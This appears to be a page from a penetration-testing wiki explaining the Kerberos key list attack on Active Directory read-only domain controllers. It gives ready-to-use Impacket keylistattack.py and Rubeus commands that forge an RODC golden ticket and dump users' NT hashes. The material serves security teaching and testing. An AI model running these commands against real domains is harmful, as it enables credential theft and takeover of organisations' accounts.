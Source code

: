 ```yaml
---
authors: BlWasp, ShutdownRepo, sckdev
category: ad
---
```


# Kerberos key list

## Theory

It is possible to retrieve the long term secret of a user (e.g. NT hash) by sending a `TGS-REQ` (service ticket request) to the `KRBTGT` service with a [`KERB-KEY-LIST-REQ`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/732211ae-4891-40d3-b2b6-85ebd6f5ffff) message type. This was introduced initially to support SSO with legacy protocols (e.g. NTLM) with Azure AD on on-premises resources.

An attacker can abuse this by forging a [RODC golden ticket](../../kerberos/forged-tickets/rodc-golden-tickets.md) for a target user and use it to send a `TGS-REQ` to the `KRBTGT` service with a `padata` filed value of [161](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/ae60c948-fda8-45c2-b1d1-a71b484dd1f7) (`KERB-KEY-LIST-REQ`). Knowing the `KRBTGT` key of the RODC is required here. The `TGS-REP` will contain the long term secret of the user in the `KERB-KEY-LIST-REP` key value.

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, the [keylistattack.py](https://github.com/fortra/impacket/blob/master/examples/keylistattack.py) tool (Python) can be used for this purpose.


```bash
#Attempt to dump all the users' hashes even the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -full "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump all the users' hashes but filter the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump a specific user's hash
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -t "$TARGETUSER" -kdc "$RODC_FQDN" LIST
```



=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for this purpose. 

```powershell
# 1. Forge a RODC Golden ticket
Rubeus.exe golden /rodcNumber:$KBRTGT_NUMBER /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:$KRBTGT_AES_KEY /user:USER /id:USER_RID /domain:domain.local /sid:DOMAIN_SID

# 2. Request a TGT via TGS-REQ request and retrieve the NT hash of the user in the response
Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket.kirbi /service:krbtgt/domain.local 
```


:::


## Resources

[https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/](https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/)